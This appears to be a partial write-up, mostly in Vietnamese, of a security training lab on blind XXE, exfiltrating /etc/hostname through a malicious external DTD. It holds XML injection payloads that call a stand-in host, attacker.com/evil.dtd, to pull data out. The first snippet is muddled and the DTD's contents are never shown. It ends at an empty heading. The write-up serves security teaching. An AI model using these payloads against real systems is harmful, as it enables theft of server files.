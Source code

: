 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

# Example

1. Attacker tạo một tệp DTD độc hại chứa payload để lấy dữ liệu. Tệp DTD có thể có dạng như sau:

```xml
<!ENTITY % payload SYSTEM "http://attacker.com/evil.dtd">
<!ENTITY % externalDTD SYSTEM "http://attacker.com/evil.dtd">
%externalDTD;
```

Attacker lưu trữ tệp DTD độc hại trên máy chủ của mình tại URL được chỉ định, chẳng hạn như http://attacker.com/evil.dtd. Tệp DTD này chứa các lệnh để trích xuất và truyền dữ liệu mong muốn.

2. Attacker tạo một payload XXE và tiêm vào ứng dụng có lỗ hổng. Payload này tham chiếu đến tệp DTD bên ngoài độc hại. Ví dụ:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>
```

Khi ứng dụng xử lý đầu vào XML, nó sẽ tải tệp DTD bên ngoài được chỉ định trong payload từ máy chủ của kẻ tấn công.

Tệp DTD độc hại chứa hướng dẫn để trích xuất dữ liệu mong muốn, chẳng hạn như truy cập vào các tệp, kết nối đến cơ sở dữ liệu hoặc thực hiện các yêu cầu mạng để truyền dữ liệu về máy chủ của kẻ tấn công.

Dữ liệu nhạy cảm được trích xuất và gửi đến máy chủ do kẻ tấn công kiểm soát.

# Overview:



